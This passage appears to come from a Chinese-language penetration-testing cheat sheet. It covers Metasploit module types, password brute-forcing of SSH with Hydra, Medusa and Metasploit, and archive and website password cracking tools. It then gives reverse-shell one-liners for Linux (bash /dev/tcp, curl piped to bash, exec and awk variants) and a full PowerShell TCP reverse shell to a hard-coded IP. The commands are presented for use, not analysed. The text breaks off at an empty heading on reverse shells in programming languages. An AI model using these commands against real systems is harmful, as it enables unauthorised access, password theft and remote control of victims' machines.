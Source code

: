 encoders：对payload进行加密，躲避av检查的模块

nops：提高payload稳定性及维持大小
### 密码爆破
#### ssh密码爆破
Linux系统密码使用的协议
```
ssh <username>@<ip>    
```
**Hydra（kali自带）**
```
hydra -L <username_dic> -P <passwd_dic> <ip> <protocol>

```
**medusa(kali自带)**
```
medusa -M <porotocl> -h <ip> -u <username> -P <passwd.txt>
```
**msfconsole**
```
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <ip>
set PASS_FILE <passwd.txt>
set USER_FILE <username.txt>
```

#### 压缩包密码爆破
**fcrack(kali自带)
ARCHPR（Windows）**
#### 网站密码爆破
Burp
### 漏洞数据库
CVE漏洞数据库（国际）
CNVD漏洞数据库（国内）
expolit-db.com
## getshell
### 直接连接

### 反弹shell
#### Linux反弹shell
**bash**
```bash -i >& /dev/tcp/ip/port 0>&1```

**Curl 反弹shell**
攻击者启动http服务在目录下存放反弹shell命令的文件,受害者去访问该文件
ip/file
 ```curl ip/file|bash```
**exec反弹shell**
```exec 5<>/dev/tcp/ip/prot;cat <&5 | while read line; do $line 2>&5 >&5; done```
**awk反弹shell**
```awk 'BEGIN {s = "/inet/tcp/0/192.168.123.192/19111"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null```
#### windows反弹shell
**powershellfantanshell**
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.100',19111);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### 编程语言反弹shell
```